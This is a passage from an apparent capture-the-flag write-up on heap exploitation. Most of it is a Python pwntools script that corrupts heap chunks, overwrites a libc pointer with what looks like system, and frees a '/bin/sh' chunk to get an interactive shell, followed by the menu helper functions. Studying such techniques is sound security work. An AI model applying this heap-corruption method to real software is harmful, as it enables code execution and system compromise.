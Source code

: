```py
    alloc(2, 0x500, 'AA')

    sice(0)
    sice(2)

    alloc(4, 0x2000, b'A'*0x508 + p64(0x111))

    sice(2)
    sice(0)

    alloc(6, 0x2000, b'A'*0x508 + p64(0x111) + p64(pie_base + 0x4060))
    alloc(8, 0x100, b'A')

    alloc(10, 0x100, p64(heap_base + 0x10) + p64(0)*11 + p64(heap_base + 0x400))

    sice(0)

    alloc(1, 0x280, b'\1'*0x80 + p64(libc_base + 0x1eeb20))

    alloc(2, 0x16, b'/bin/sh\0'+p64(libc_base + 0x55410))
    sice(2)
    p.interactive()
```

Lets walk through, step by step.

Firstly we have a set of helper functions:

```py
# muh debugging
def attach_stop(p):
    gdb.attach(p)
    raw_input()

# allocate a chunk
def alloc(idx,size,data):
    p.sendlineafter('> ','1')
    p.sendlineafter('> ',str(idx))
    p.sendlineafter('> ',str(size))
    p.sendafter('Memory> ',data)

# free a chunk
def sice(idx):
    p.sendlineafter('> ','2')
    p.sendlineafter('> ', str(idx))

# view a chunk - this also wipes out half of our `chunks` array
def view(idx,kek):
    p.sendlineafter('> ','3')
    p.sendlineafter('[Y/N]> ',kek)
    p.sendlineafter('> ',str(idx))
    return p.recvline().split(b':')[1]
```
